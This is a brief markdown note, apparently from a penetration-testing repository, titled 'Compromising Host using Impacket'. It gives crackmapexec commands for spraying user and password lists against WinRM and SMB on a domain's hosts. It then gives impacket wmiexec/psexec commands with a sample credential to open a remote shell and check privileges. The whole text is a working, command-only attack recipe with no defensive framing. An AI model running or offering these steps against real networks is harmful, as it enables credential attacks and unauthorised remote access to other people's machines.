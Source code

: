 
# Compromising Host using Impacket

Open the kali machine and create a directory and in that create a users and password file with the creds in that and a target file containing the ip's of all the hosts and domain.

```crackmap
crackmapexec winrm target.txt -u users.txt -p password.txt --continue-on-success -d xyz.com
or
crackmapexec smb (ip) -u user -p password --computers (to list all the hosts)
```
Now run the impacket tool
```impacket
impacket-wmiexec or (psexec) xyz.com/Charlie:P@ssw0rdABC@{ip}
```
after the connection is made you can check the privileges by ( whoami /priv ) and can do other tasks also.
